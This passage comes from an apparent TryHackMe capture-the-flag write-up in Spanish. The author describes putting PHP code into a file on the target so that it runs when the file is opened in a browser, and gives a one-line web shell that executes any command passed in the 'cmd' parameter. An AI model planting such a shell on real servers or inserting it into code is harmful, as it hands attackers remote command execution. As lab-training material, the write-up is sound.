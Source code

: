 ![picture](/assets/images/tryhackme/breakm14.png)

Y en este archivo, podemos introducir código **`PHP`**, para que cuando introduzcamos en el navegador la ruta absoluta del archivo, se ejecute.

Podría introducir el código para me devuelva una **`Reverse Shell`** directamente, pero voy a introducir un **`Command Injection`** para poder ejecutar comandos desde el navegador.

- *Command Injection*

    ```php
    <?php
    system($_GET["cmd"]);
    ?>
    ```

![picture](/assets/images/tryhackme/breakm15.png)
